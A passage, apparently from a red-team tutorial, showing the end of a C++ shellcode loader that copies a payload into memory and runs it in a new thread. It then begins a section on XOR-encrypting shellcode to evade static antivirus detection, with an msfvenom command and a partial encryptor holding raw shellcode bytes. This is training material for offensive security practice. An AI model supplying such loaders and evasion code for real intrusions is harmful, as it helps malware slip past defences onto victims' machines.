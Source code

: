 ```cpp
    }

    // Copy shellcode to allocated memory
    memcpy(execMem, shellcode, sizeof(shellcode));

    // Execute shellcode
    HANDLE hThread = pCreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)execMem, NULL, 0, NULL);
    if (!hThread) {
        std::cerr << "CreateThread failed." << std::endl;
        return -1;
    }

    // Wait for shellcode to finish
    pWaitForSingleObject(hThread, INFINITE);

    return 0;
}
```

---

# 4. Some Basic Offensive Techniques
### 4.1 XOR-encrypted shellcode
Simple and effective, it's an encryption method to perform a XOR operation on each byte of the payload to inject with a predefined key.
Effective against static analysis but could be detected by heuristic and behavioural monitoring.
1. Generate a shellcode with `msfvenom` or `Donut`. 
   `msfvenom -p windows/x64/messagebox TEXT="Hello" -f c`
2. Generate a `encrypted_payload.h` with `encryptor.cpp` :
	```cpp
	#include <iostream>
	#include <fstream>
	#include <vector>
	#include <string>
	
	// XOR encryption key
	const std::string key = "redteamexercises";
	
	// Raw shellcode
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
	                            "\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52";
	
	const size_t shellcode_size = sizeof(shellcode);
	
	// XOR encryption function
	void xor_encrypt(std::vector<unsigned char>& data, const std::string& key) {
	    for (size_t i = 0; i < data.size(); i++) {
	        data[i] ^= key[i % key.size()];
	    }
	}
	